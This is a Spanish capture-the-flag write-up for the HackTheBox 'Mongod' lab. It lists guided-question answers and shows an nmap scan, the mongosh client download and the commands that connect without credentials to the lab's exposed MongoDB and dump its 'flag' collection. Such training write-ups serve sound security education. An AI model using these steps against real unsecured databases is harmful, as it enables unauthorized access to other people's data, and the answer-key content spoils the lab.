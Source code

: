 #easy #linux #ping #nmap #mongodb

----
# Guided Mode

1)¿Cuántos puertos TCP están abiertos en la máquina?
	2

2)¿Qué servicio se ejecuta en el puerto 27017 del host remoto?
	MongoDB 3.6.8

3)¿Qué tipo de base de datos es MongoDB? (Elija: SQL o NoSQL)
	NoSQL

4)¿Cuál es el nombre del comando para el shell de Mongo que se instala con el paquete mongodb-clients?
	mongosh

5)¿Cuál es el comando utilizado para listar todas las bases de datos presentes en el servidor MongoDB? (No es necesario incluir un ; al final)
	show dbs

6)¿Cuál es el comando utilizado para listar las colecciones de una base de datos? (No es necesario incluir un ; al final)
	show collections

7)¿Cuál es el comando utilizado para volcar el contenido de todos los documentos de la colección denominada flag en un formato fácil de leer?
	db.flag.find()

---------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

![[Mongod1.png]]

![[Mongod2.png]]
*TTL:* Maquina Linux
*Puertos:*
	`22`[[ssh]]
	`27017` [[mongodb]]

-----
# Intrusion por [[mongodb]]

Descargamos el binario con [[curl]] para ejecutar [[mongodb]] por que no esta en la maquina. Despues con [[tar]] lo vamos a descomprimir, con [[cd]] entramos en la carpeta. Y con el comando final ejecutamos el binario entrando a la base de datos
```shell
curl -O https://downloads.mongodb.com/compass/mongosh-2.3.2-linux-x64.tgz
tar xf mongosh-2.3.2-linux-x64.tgz
cd mongosh-2.3.2-linux-x64/bin
./mongosh mongodb://10.129.228.30:27017
```


![[Mongod3.png]]

Ya estamos adentro asi que vamos a listar las bases de datos con `show dbs` Luego entramos a la base de datos *sensitive_information* con el comando `use sensitive_information`. Ahora con `show colections` vamos a listar las tablas. Y finalmente dumpeamos los datos de la tabla *flag* con `db.flag.find()`

![[Mongod4.png]]

----------
# Notas
Una base de datos es sql, cuando tiene el modelo tradicional de bases de datos que son tablas,columnas,filas,etc. Y cuando no tiene esto es una base de datos NOSQL

-------
# Creditos
Writeup Oficial HackTheBox